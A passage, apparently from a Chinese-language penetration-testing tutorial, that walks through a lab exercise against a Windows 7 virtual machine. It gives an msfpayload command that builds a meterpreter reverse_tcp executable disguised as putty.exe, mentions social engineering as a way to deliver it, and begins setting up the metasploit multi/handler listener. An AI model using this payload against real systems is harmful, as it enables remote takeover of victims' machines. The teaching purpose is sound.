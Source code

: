 ![用户账户控制](img/477-1_10_37.jpg)

我们将创建一个可执行文件，并将其传输到 Windows 7 虚拟机，以便从被攻击的机器中获得我们的第一个 shell。我们将使用 metasploit 的可执行文件功能。

我们首先需要创建一个可执行文件，用作从 Windows 7 机器返回到我们的 Kali Linux 机器的连接。我们在 metasploit 工具中具有这种能力。在您的 Kali Linux 机器上，打开一个终端窗口，并输入`msfconsole`来打开 metasploit 工具。一旦 metasploit 工具启动（这将需要一分钟），输入以下命令：

```
msfpayload windows/meterpreter/reverse_tcp LHOST = <IP ADDRESS OF Kali> LPORT=123 X > putty.exe

```

这将创建一个名为`putty`的可执行文件，其中包含用于从网络到 Kali 机器的连接的有效载荷和连接信息。

以下是输入和完成命令的示例：

![用户账户控制](img/477-1_10_38.jpg)

屏幕显示输入和完成命令的示例（裁剪的文本不重要）

我们现在已经创建了文件，并需要将其从我们的机器传输到受害者。我们可以使用某种形式的社会工程学；但是，对于我们的目的，在实验环境中，我们将文件拖放到受害者机器中。

接下来我们需要做的是设置 metasploit 工具；我们通过输入以下命令来实现这一点：

+   `use exploit/multi/handler`
